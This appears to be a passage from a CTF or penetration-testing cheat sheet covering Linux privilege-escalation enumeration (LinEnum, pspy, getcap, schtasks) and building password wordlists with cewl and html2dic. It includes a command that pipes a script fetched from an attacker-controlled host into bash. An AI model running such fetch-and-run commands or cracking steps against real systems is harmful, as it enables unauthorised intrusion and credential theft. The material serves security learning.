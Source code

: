[https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)

```
curl http://$attackerip/LinEnum.sh | /bin/bash
chmod +x LinEnum.sh
./LinEnum.sh
```

#### pspy

pspy is a command line tool designed to snoop on processes without need for root permissions.

```
Cron job watching with pspy
~/pspy (master) $ make example
```

### Other useful commands

#### List out all scheduled tasks

```
schtasks /query /fo LIST /v
```

List the capability of a file

```
getcap -r / 2>/dev/null
```





## Password Cracking

Belw are the Cracking methonlogy used in CTF challanges.

### Creating a password list

1\)  You can create your own dictionary or combing two different wordlists by

```
cat wordlist >> wordlist2
```

2\) Create a customised wordlist from html page

```
curl http://example.com > example.txt
html2dic example.txt
```

Or use **Cewl**

```
cewl -w createWordlist.txt -m 6 https://www.example.com
```
